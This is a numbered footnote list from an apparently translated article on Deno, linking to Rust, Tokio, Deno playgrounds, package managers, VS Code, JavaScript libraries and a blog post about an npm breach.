[T2`www.rust-lang.org/`](http://www.rust-lang.org/)

  [5](#Fn5_source)

[T2`https://tokio.rs/`](https://tokio.rs/)

  [6](#Fn6_source)

[T2`https://blog.logrocket.com/the-latest-npm-breach-or-is-it-a427617a4185/`](https://blog.logrocket.com/the-latest-npm-breach-or-is-it-a427617a4185/)

  [7](#Fn7_source)

Youtube 上 node . js-Ryan Dahl-JSConf EU 我后悔的 10 件事

  [8](#Fn8_source)

[T2`https://github.com/maman`](https://github.com/maman)

  [9](#Fn9_source)

[T2`https://deno-playground.now.sh/`](https://deno-playground.now.sh/)

  [10](#Fn10_source)

[T2`https://deno.town/`](https://deno.town/)

  [11](#Fn11_source)

[T2`https://code.visualstudio.com/`](https://code.visualstudio.com/)

  [12](#Fn12_source)

[T2`https://formulae.brew.sh/formula/deno`](https://formulae.brew.sh/formula/deno)

  [13](#Fn13_source)

[T2`https://scoop.sh/`](https://scoop.sh/)

  [14](#Fn14_source)

[T2`https://jquery.com/`](https://jquery.com/)

  [15](#Fn15_source)

[T2`https://underscorejs.org/`](https://underscorejs.org/)

  [16](#Fn16_source)

[T2`https://lodash.com/`](https://lodash.com/)

 </aside>